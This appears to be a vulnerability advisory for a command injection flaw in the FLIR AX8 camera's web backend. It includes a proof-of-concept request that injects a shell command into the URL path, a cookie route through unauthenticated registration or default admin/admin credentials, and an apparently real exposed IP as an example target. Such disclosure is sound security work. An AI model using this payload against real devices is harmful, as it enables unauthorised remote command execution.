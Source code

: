 # Command injection vulnerability in subscribe_to_spot() in FLIR AX8

### Description

Command injection vulnerability in /usr/www/application/models/subscriptions.php  in FLIR AX8 up to 1.46.16 allows attackers to run arbitrary commands via the function subscribe_to_spot()

### Note:

This vulnerability is a backend issue that requires obtaining cookies. It  can exploit the unauthorized access vulnerability for arbitrary user  registration found at /tools/test_login.php?action=register. After  registering a new user, cookies can be obtained to achieve RCE (Remote  Code Execution). 

Also.Under normal circumstances, it has a weak password vulnerability with  default account credentials being 'admin' for both user and password too.  You can also obtain a cookie through this method.

### POC

```
GET /home/subscribe/spot/;whoami>test.txt; HTTP/1.1
Host: XXXXXX
Cookie: PHPSESSID=XXXXXXX
```

For example

- this cookie must be changed

```
GET /home/subscribe/spot/;whoami>test.txt; HTTP/1.1
Host: 222.103.211.89:8004
Cookie: PHPSESSID=XXXXXXXX
```



### Anayliss

`/usr/www/application/models/subscriptions.php`

The  subscribe_to_spot() can in the Line 148 can trigger the line 31 shell_exec()



![image-20250528203304783](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505282033820.png)

![image-20250528203257834](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505282032882.png)

